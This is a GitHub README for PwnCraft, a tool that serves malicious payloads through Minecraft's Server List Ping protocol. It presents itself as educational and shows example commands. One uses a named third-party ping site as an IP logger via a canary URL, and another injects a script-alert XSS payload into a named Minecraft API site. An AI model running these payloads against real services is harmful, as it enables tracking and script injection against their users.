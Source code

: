 # PwnCraft 🏴‍☠️

A tool built to deliver malicious payloads through [Minecraft SLP protocol](https://wiki.vg/Server_List_Ping).
Made for educational purpose, for preventing people from getting attacked by this.

## Example usages

### Use https://crafty.gg as an IP logger

- `https://crafty.gg/tools/ping?ip=YOUR_IP&port=YOUR_PORT&platform=java`

- `./pwncraft localhost 1337 -f 'https://CANARY/'`

### XSS on https://minecraft-api.com

- `https://minecraft-api.com/api/ping/YOUR_IP/YOUR_PORT`
- `./pwncraft localhost 1337 -d '<script>alert("XSS !");</script>'`

## Credits

Varint implementation: https://github.com/jsvana/async-minecraft-ping/